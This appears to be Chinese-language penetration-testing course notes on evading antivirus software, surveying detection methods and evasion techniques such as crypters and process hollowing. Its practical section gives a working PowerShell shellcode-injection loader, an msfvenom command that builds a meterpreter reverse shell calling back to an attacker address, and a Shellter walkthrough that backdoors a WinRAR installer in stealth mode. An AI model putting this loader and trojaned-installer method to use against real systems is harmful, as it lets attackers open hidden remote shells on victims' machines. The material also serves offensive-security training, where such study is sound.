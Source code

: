 # 绕过反病毒软件

防病毒（AV）是旨在防止，检测和删除恶意软件的应用程序类型。最初旨在仅删除计算机病毒。但是，随着其他类型恶意软件的发展，防病毒软件现在通常包括其他保护措施，例如防火墙，网站扫描仪等。

## 常见病毒检测技术

黑名单技术

> 防病毒签名是恶意软件中唯一标识它的连续字节序列。我们可以通过简单地更改或混淆已知恶意文件的内容来绕过基于签名的检测，以破坏标识字节序列（或签名）
> 基于签名的防病毒检测通常被认为是黑名单技术

启发式技术

> 基于启发式的检测 是一种依靠各种规则和算法来确定某个操作是否被视为恶意的检测方法。这通常是通过单步执行二进制文件的指令集或尝试反编译然后分析源代码来实现的。这个想法是寻找被认为是恶意的各种模式和程序调用（与简单的字节序列相对）

行为检测

> 可替代地，基于行为的检测,动态地分析二进制文件的行为。这通常是通过在仿真环境（例如小型虚拟机）中执行有问题的文件并查找被认为是恶意的行为或动作来实现的

## 磁盘存储型病毒的AV绕过

### 打包

> 避免检测的最早方法之一,使用压缩器打包
>
> 打包程序生成的可执行文件不仅较小，而且在功能上与全新的二进制结构等效。生成的文件具有新的签名，因此可以有效地绕过较早且更简单的AV扫描仪但仅使用UPX411和其他流行的打包程序仍不足以逃避现代AV扫描仪

### 混淆

> 包括用语义上等效的指令替换指令，插入不相关的指令或“死代码”,花指令，拆分或重新排序功能，等等。此技术主要由软件开发人员用来保护其知识产权，对于基于签名的AV检测也非常有效

### 加密

> “加密程序”软件以密码方式更改可执行代码，并添加了一个解密存根，该存根将在执行后恢复原始代码。该解密在内存中进行，仅将加密的代码保留在磁盘上。作为最有效的AV规避技术之一，加密已成为现代恶意软件的基础

### 软件保护

> 高效的防病毒规避除其他高级技术外，还需要结合所有先前的技术，包括防逆转，防调试，虚拟机仿真检测等。在大多数情况下，软件保护程序是出于合法目的而设计的，但也可以用于绕过AV检测



## 内存注入型病毒的AV绕过

### 远程过程内存注入

见实例部分

### 反射式DLL注入

> 不同于常规的DLL注入（使用LoadLibrary API从磁盘加载恶意DLL），此技术尝试将攻击者存储的DLL加载到进程内存中。实现此技术的主要挑战是LoadLibrary不支持从内存中加载DLL。此外，Windows操作系统也不公开任何可以处理此问题的API。选择使用此技术的攻击者必须编写自己的不依赖于基于磁盘的DLL的API版本。

### Process Hollowing 进程替换，傀儡进程

> 当使用傀儡进程绕过防病毒软件时，攻击者首先以挂起状态启动一个非恶意进程。启动后，该进程的映像将从内存中删除，并替换为恶意的可执行映像。最后，然后恢复该过程并执行恶意代码，而不是合法的过程

### Inline hooking 内联hook

> 顾名思义，该技术涉及修改内存并将钩子（重定向代码执行的指令）引入函数中，以将执行流指向我们的恶意代码。在执行我们的恶意代码后，该流程将返回到修改后的函数并恢复执行，似乎只执行了原始代码。

## 实例

### PowerShell In Memory Injection

> 在下面的示例中，我们将使用类似于“远程进程内存注入”部分中描述的技术。主要区别在于我们将以当前正在执行的过程为目标，在本例中将是PowerShell解释器
>
> 在下面的清单中，我们看到了执行内存注入的基本模板脚本

```powershell
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
#该脚本首先从kernel32.dll以及从msvcrt.dll导入memset来导入VirtualAlloc和CreateThread。这些函数将使我们能够分配内存，创建执行线程以及将任意数据分别写入分配的内存

$winFunc =
	Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
###########################
[Byte[]]$sc = <place your shellcode here>;	#替换成shellcode

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
#然后，脚本使用VirtualAlloc分配一个内存块，获取$ scbyte数组中存储的有效负载的每个字节，然后使用memset将其写入新分配的内存块中

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
#最后一步，使用CreateThread在单独的线程中执行我们的内存写入有效负载。
```

替换shellcode

```bash
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell
```

在部分用户运行时候会出现错误，导致这个错误的原因是因为用户的设置

![image-20200526022100787](assets/7.绕过AV.assets/image-20200526022100787.png)

让我们尝试查看和更改当前用户的政策。请注意，在这种情况下，我们选择更改策略，而不是基于每个脚本绕过它，这可以通过在运行每个脚本时使用-ExecutionPolicy Bypassflag来实现。

```powershell
C:\Users\offsec\Desktop> powershell
Windows PowerShellCopyright (C) 2015 Microsoft Corporation. All rights reserved.
PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser

Undefined

PS C:\Users\offsec\Desktop> Set-ExecutionPolicy -ExecutionPolicy 
Unrestricted -Scope CurrentUser

PS C:\Users\offsec\Desktop> Get-ExecutionPolicy -Scope CurrentUser

Unrestricted
PS C:\Users\offsec\Desktop> .\av_test.ps1

C:\Users\offsec\Desktop> powershell .\av_test.ps1

```

再次执行会在meterpreter监听获得shell

## Shellter

> Shellter是一个动态的Shellcode注入工具，是能够绕过防病毒软件的最受欢迎的免费工具之一。它使用多种新颖和先进的技术对带有恶意shellcode有效负载的有效且非恶意的可执行文件进行后门操作

由于Shellter被设计为可在Windows操作系统上运行，因此我们还将安装wine，兼容层，该层能够在多个POSIX兼容操作系统上运行win32应用程序。

```bash
kali@kali:~$ sudo apt install shellter
kali@kali:~$ apt install wine
```

安装完所有内容后，在终端上运行shellterin将为我们提供在wine下运行的新控制台

![image-20200526060005266](assets/7.绕过AV.assets/image-20200526060005266.png)

Shellter可以在“自动”或“手动”模式下运行。在“手动”模式下，该工具将启动我们要用于进样的PE，并允许我们在更精细的级别上对其进行操作。如果自动选择的选项失败，我们可以使用此模式高度自定义注入过程.

此例中使用自动。

接下来，我们必须选择目标PE。Shellter将分析和更改执行流程以注入并执行我们的有效负载。在此示例中，我们将使用流行的WinRAR utility的32位试用版可执行安装程序作为目标PE。shellter会帮助对原文件进行备份

![image-20200526060903658](assets/7.绕过AV.assets/image-20200526060903658.png)

Shellter一旦找到合适的位置来注入我们的有效负载，就会询问我们是否要启用隐身模式，437该模式将在我们的有效负载执行完毕后尝试恢复PE的执行流程。我们将选择启用Stealth Mode，因为我们希望WinRAR安装程序能够正常运行，以避免任何怀疑。

此时，我们将看到可用负载列表。这些包括流行的选择，例如meterpreter，但是Shellter还支持自定义有效载荷

![image-20200526061047130](assets/7.绕过AV.assets/image-20200526061047130.png)

![image-20200526061241508](assets/7.绕过AV.assets/image-20200526061241508.png)

设置本地ip，端口。

![image-20200526061408571](assets/7.绕过AV.assets/image-20200526061408571.png)

设置监听属性。

![image-20200526061721783](assets/7.绕过AV.assets/image-20200526061721783.png)

为了防止连接被kill掉，可以使用AutoRunScript配合migrate，让连接一但成功，立刻转移进程到稳定进程。

![image-20200526061744029](assets/7.绕过AV.assets/image-20200526061744029.png)

